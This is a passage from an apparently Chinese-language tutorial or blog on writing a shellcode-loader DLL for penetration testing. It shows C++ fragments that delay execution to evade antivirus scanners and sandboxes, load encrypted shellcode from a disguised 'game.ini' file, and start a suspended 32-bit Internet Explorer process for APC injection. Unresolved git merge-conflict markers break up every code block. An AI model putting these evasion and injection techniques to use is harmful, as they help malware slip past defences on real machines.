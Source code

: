 同时为了对抗一些比较 low 的内存扫描和沙箱我们使用 WaitForSingleObject 等待杀毒分析完再运行起来：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
WaitForSingleObject(GetCurrentThread(), 10000);
```

### 获取加密的 shellcode

从本地文件 game.ini 中读取加密的 shellcode

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
std::ifstream file("game.ini", std::ios::binary);
std::vector<unsigned char> shellcode;

if (file) {
    file.seekg(0, std::ios::end);
    size_t size = file.tellg();
    shellcode.resize(size);

    file.seekg(0, std::ios::beg);
    file.read(reinterpret_cast<char*>(shellcode.data()), size);
    file.close();
}
```

到这里 DLLmain 的全部逻辑就写完了，可以愉快的测试上线了，然而我 x32dbg 调了一天发现 shellcode 明明已经就位，每个环节也没有任何 windows errors code 返回，还是不上线，这是怎么回事？

### 存在 32 位进程无法注入 64 进程的问题

经过一天排查资料我找到了原因：

通常来说，32 位的程序只能注入 32 位的程序，64 也只能注入 64 位的程序，运行在 Wow64 下的 32 位程序默认调用的是 x32 的 API，kernel32 导出的 API 地址在 32 位和 64 位下的地址是不同的，也没办法直接调用 x64 下的 API，也就导致了 APC 创建线程肯定会直接崩溃。

简单的解决办法是直接拉起一个 32 位的进程，每次根据情况来调整这个参数：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
auto [PId, hProcess, hThread] = CreateProcessAndStop("C:\\Program Files (x86)\\Internet Explorer\\iexplore.exe");
```

不过渗透环境比较复杂，我们还是得想办法切换线程 bit 模式来适应这个问题，不过由于实现过于复杂，涉及到大量的汇编代码，遗憾的是我现在水平确实不够，不过我发现 msf 确实有解决方案能从 32 位进程注入 64 进程，师傅有兴趣可以去看[源码](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/migrate/apc.asm)研究一下
